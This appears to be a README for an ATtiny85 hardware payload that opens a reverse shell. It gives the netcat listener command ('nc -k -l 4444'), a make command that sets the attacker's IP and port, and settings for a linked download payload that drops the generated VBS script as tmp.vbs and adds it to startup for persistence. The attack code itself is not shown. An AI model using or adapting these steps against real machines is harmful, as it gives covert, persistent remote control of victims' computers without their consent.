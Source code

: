 # Objective

Allows you to open a remote shell (for remote control) by connecting to a computer that has opened a netcat server as follows:  
``nc -k -l 4444``  
This code can be made persistent thanks to the payload: [https://github.com/jzyra/Attiny85Payloads/tree/main/payloads/download](https://github.com/jzyra/Attiny85Payloads/tree/main/payloads/download)

# Build

The script to use must be generated with the make command, specifying the IP address and port of the netcat server:

    make IP=127.0.0.1 PORT=4444

# Download payload settings

* __URL__ : Direct download URL to the ``out.vbs`` script.
* __EXE_FILENAME__ : tmp.vbs
* __STARTUP__ : Set.
